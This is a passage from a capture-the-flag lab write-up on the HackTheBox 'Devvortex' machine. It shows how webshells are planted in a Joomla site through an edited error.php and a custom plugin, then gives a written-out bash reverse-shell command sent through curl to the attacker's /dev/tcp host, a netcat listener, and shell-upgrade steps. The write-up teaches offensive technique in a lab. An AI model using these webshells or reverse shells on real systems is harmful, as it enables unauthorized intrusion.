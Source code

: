#### Webshell

I’ll add the following PHP code to the top of `error.php`:

![image-20240423082539183](/img/image-20240423082539183.png)

If the argument `0xdf` is passed, run it with `system` and stop, and otherwise do the page as normal. It works:

![image-20240423082619177](/img/image-20240423082619177.png)

### Via Webshell Plugin

Before finding a writable file, I just wrote a plugin for Joomla. Searching for Joolma webshell plugins will return many perfectly good results (like [this](https://github.com/p0dalirius/Joomla-webshell-plugin)), but it’s more fun to make my own. I’ll start with [this Joomla page](https://docs.joomla.org/J4.x:Creating_a_Plugin_for_Joomla) on making Plugins, and trim it down to just what’s necessary. I’ll walk through the process in [this quick video](https://www.youtube.com/watch?v=sdF8YSPHql4):

At the end, I have a webshell:

![image-20240423150735374](/img/image-20240423150735374.png)

### Shell

From either webshell, I’ll get a shell by running a standard [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) with it:

```

oxdf@hacky$ curl http://dev.devvortex.htb/plugins/search/webshell/evil.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'

```

I get a connection at `nc`:

```

oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.242 57742
bash: cannot set terminal process group (877): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$

```

I’ll upgrade my shell with [the standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ script /dev/null -c bash
Script started, file is /dev/null
www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ 

```
